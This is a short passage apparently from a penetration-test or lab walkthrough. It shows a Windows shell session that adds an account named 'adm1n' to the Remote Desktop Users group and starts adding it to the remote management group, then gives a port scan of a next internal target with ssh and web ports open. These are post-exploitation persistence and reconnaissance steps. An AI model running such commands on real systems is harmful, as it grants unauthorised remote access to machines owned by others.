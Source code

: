 ### Going to add adm1n to remote users group

```bash
C:\Windows\system32>net localgroup "remote Desktop Users" "adm1n" /add
net localgroup "remote Desktop Users" "adm1n" /add
The command completed successfully.


C:\Windows\system32>net localgroup "Remote Desktop Users
net localgroup "Remote Desktop Users
Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
adm1n
joe
The command completed successfully.


C:\Windows\system32>

net localgroup "Remote Management Use" "adm1n" /add
```

```bash
Next target
172.16.1.23
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
8089/tcp open  unknown

```
